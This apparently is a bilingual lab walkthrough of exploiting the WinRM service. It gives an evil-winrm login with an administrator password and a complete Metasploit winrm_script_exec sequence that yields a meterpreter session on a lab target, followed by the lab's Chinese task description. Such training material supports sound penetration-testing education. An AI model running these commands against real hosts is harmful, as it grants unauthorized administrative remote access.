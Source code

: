 Obtain a command shell session:

[evil-winrm](https://github.com/Hackplayers/evil-winrm)

We get a command shell facilitated through powershell.

```
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.45

PS C:\User\Administrator\Documents> whoami
PS C:\User\Administrator\Documents> ipconfig
PS C:\User\Administrator\Documents> net user
```

[WinRM Script Exec Remote Code Execution](https://www.rapid7.com/db/modules/exploit/windows/winrm/winrm_script_exec/)

WinRM Script Exec 远程代码执行

此模块使用有效凭据登录 WinRM 服务并执行有效负载。它有两种可用的有效负载交付方法：Powershell 2.0 和 VBS CmdStager。该模块将检查 Powershell 2.0 是否可用，如果可用，则使用该方法。否则，它会退回到不那么隐蔽的 VBS CmdStager。重要提示：如果使用 Powershell 方法针对 x64 系统，您必须选择 x64 有效负载。x86 有效负载永远不会返回。

It is a 64 bit meterpreter session because it migrated to 64 bit process. And then we get the privileges associated with this process. 

```
service postgresql start && msfconsole

search winrm_script
use exploit/windows/winrm/winrm_script_exec
show option
set RHOSTS 10.2.18.45
set FORCE_VBS true
set USERNAME administrator
set PASSWORD tinkerbell
exploit

meterpreter > sysinfo
meterpreter > getuid
```

# WinRM: Exploitation with Metasploit（WinRM：利用 Metasploit）
## 概述
为您提供了一台 Kali GUI 机器和一台运行 WinRM 服务器的目标机器。目标机器的 IP 地址在 Kali 机器桌面 (/root/Desktop/target) 上名为 target 的文本文件中提供。 

你的任务是使用 Kali 机器上可用的工具对 WinRM 服务进行指纹识别，然后使用 Metasploit 框架漏洞利用和辅助模块来利用漏洞。

目标：利用 WinRM 服务获取目标上的meterpreter并检索标志！

**指示：**

你的 Kali 机器有一个 IP 地址为 10.10.XY 的接口运行“ip addr”以了解 X 和 Y 的值。

